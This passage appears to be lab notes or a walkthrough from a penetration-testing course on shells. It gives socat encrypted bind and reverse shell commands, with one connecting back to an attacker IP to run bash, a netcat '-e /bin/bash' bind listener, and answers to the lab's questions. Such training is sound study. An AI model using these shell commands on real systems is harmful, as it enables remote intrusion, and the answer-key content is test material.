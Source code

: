 The same technique would apply for a bind shell:

**Target**:

```commandline
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

**Attacker**:

```commandline
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![alt text](images/socat-encrypted-shells.png "Screenshot")

This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.

What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"?

```commandline
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

```commandline
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## Common Shell Payloads

We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection. 

_TIP: Check this out with `tree -d /usr/share/windows-resources/`_

For example, as a listener:

```commandline
nc -lvnp <PORT> -e /bin/bash
```

Connecting to the above listener with netcat would result in a bind shell on the target.
